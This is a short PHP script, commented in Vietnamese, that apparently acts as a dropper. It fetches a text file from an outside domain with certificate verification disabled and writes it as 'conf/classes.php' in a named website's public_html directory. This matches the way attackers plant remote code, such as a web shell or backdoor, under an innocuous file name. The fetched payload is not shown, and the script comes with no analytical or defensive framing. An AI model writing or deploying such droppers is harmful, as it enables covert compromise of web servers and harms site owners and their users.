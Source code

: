 // URL của file cần tải
$url = "https://dogebreedlist.info/app/report.txt";

// Đường dẫn lưu file
$savePath = "/home/cambodiaearrival/public_html/conf/classes.php";

// Khởi tạo cURL session
$ch = curl_init($url);

// Mở file để ghi
$file = fopen($savePath, "w");

if ($file === false) {
    die("Không thể mở file để ghi.");
}

// Cấu hình cURL để ghi dữ liệu trực tiếp vào file
curl_setopt($ch, CURLOPT_FILE, $file);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);

// Thực hiện tải file
$result = curl_exec($ch);

// Kiểm tra lỗi
if ($result === false) {
    echo "Lỗi cURL: " . curl_error($ch);
} else {
    echo "Tải file thành công!";
}

// Đóng cURL và file
curl_close($ch);
fclose($file);
?>
